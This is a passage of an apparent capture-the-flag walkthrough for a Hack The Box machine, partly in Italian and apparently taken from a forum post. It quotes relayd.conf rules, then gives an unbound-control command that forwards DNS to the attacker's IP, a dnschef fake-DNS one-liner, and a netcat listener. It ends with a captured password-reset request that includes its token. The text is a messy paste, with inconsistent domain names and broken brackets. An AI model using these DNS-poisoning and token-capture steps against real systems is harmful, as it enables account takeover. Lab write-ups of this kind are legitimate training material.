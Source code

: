 \-- Exploit Misconfig on relayd.conf  
  
  
  
 pass request quick header "Host" value "\*crossfit-club.htb" forward to <3>  
  
 pass request quick header "Host" value "\*employees.crossfit.htb" forward to <2>  
  
  
  
  
  
Found New Domain:  
  
  
  
## [http://crossfit-club.htb](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2Fcrossfit-club.htb) ##  
  
  
  
xemployees.crossfit.htb ----> domain to add to the file /etc/hosts  
  
  
  
Forward dns traffic via this command:  
  
  
  
unbound-control -c my\_unbound.conf -s 10.10.10.232@8953 forward\_add +i fuckemployees.crossfit.htb. <your\_ip>@53  
  
  
  
Utilizzare un fake dns con questo comando:  
  
  
  
i=0; dnschef -i <your\_ip --fakedomains xemployees.crossfit.htb --fakeip 127.0.0.1 2>&1 | while read line; do case "$line" in \*cooking\*) (( i++ )); echo $i;  \[\[ "$i" -gt 1 \]\]  && pkill -f dnschef;; esac; done; dnschef -i <your\_ip --fakedomains xemployees.crossfit.htb --fakeip <your\_ip  
  
  
  
Listen on netcat:  
  
nc -nlvp 80  
  
  
  
Token receveid:  
  
connect to \[<your\_ip\] from (UNKNOWN) \[10.10.10.232\] 39907  
  
GET /password-reset.php?token=9bb1cc830641bde976969ef85edc3f78b108c344bdbc0355b30749d5895803691a2f50a2534258fbb471f05fe4124bfda4d92bb1dd833a3aa8db4e9250055fc1 HTTP/1.1  
  
Host: fuckemployees.crossfit.htb  
  
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0  
  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8  
  
Accept-Language: en-US,en;q=0.5  
  
Accept-Encoding: gzip, deflate  
  
Connection: keep-alive  
  
